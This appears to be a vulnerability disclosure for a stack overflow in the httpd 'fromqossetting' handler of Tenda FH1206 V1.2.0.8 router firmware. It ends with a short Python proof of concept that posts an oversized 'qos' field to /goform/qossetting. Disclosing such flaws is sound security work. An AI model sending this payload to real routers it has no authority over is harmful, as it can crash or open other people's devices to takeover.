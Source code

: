 ## Overview

- Manufacturer's website: https://www.tendacn.com
- Firmware download website:
  - https://www.tendacn.com/hk/download/detail-2344.html
  - https://www.tendacn.com/us/download/detail-2344.html

## Affected version

Tenda FH1206 V1.2.0.8(8155)

## Vulnerability details

A stack overflow vulnerability exists in the `fromqossetting` function of program `/bin/httpd` in FH1206 V1.2.0.8(8155). 

The function takes the `page` parameter and splices it to variable `v7` on the stack, causing a stack overflow.

When `op` is not `add` or `edit`, the function takes the `qos` parameter and copies it to variable `v8` on the stack, causing a stack overflow.

![image1](image/1.png)

## PoC

```python
import requests

IP = '192.168.244.3'

url = f"http://{IP}/goform/qossetting"

data = {
    "entrys": "tenda",
    "op": "pwn!!!",
    "page": "hacked",
    "qos": "a"*0x1000,
    # "page": "a"*0x1000,
    # "qos": "hacked",
}

ret = requests.post(url,data=data)
```

![demo](image/demo.png)

